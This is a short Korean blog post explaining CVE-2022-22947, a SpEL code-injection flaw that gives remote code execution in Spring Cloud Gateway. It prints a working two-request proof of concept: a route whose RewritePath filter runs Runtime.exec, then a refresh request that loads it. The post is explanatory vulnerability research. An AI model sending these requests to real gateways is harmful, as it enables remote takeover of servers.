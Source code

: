 ```yaml
---
title: "[하루한줄] CVE-2022-22947: CVE-2022-22947: Spring Cloud Gateway Code Injection vulnerability"
author: L0ch
tags: [L0ch, cve-2022-22947, rce, code injection, cve, spring]
categories: [1day1line]
date: 2022-03-03 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

<https://github.com/0vercl0k/zenith>

## Target

- Spring Cloud Gateway

## Explain
Spring 프레임워크에서 API Gateway를 구현하기 위한 라이브러리 Spring Cloud Gateway 에서 Code Injection으로 인한 원격 코드 실행 취약점이 발견되었습니다.

Spring Cloud Gateway는 SpEL 표현식을 사용하며 Spring Cloud Gateway 모듈 중 `ShortcutConfigurable` 의 `getValue` 메서드는 `StandardEvaluationContext`를 사용해 모든 유효한 SpEL 표현식을 처리하는데, SpEL을 전달하는 과정에서 입력에 대한 검사가 존재하지 않아 해커는 임의 코드를 실행하는 SpEL을 전달할 수 있습니다.

> SpEL(Spring Expression Language, 스프링 표현 언어) : 스프링에서 지원하는 일종의 표현이며 `#{...}` 으로 나타냅니다.
> 

PoC는 두 단계의 HTTP Request로 구성됩니다. 

먼저 실행할 임의 코드가 포함된 `RewritePath`의 인수를 `StandardEvaluationContext`로 처리할 수 있도록 SpEL 표현으로 캡슐화합니다.

```c
POST /actuator/gateway/routes/new_route HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
Content-Type: application/json

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/new_route/**"
      }
    }
  ],
  "filters": [
    {
      "name": "RewritePath",
      "args": {
        "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")}",
        "_genkey_1": "/${path}"
      }
    }
  ],
  "uri": "https://wya.pl",
  "order": 0
}
```

`#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")}` 와 같이 캡슐화한 HTTP Request를 보냅니다. 



이후 해당 구성을 강제로 로드하는 아래 Request를 보냅니다.

```c
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Content-Type: application/json
Connection: close
Content-Length: 258

{
  "predicate": "Paths: [/new_route], match trailing slash: true",
  "route_id": "new_route",
  "filters": [
    "[[RewritePath #{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")} = /${path}], order = 1]"
  ],
  "uri": "https://wya.pl",
  "order": 0
}
```

결과적으로 SpEL 표현식을 실행해 해커가 원격에서 임의의 코드를 실행할 수 있습니다.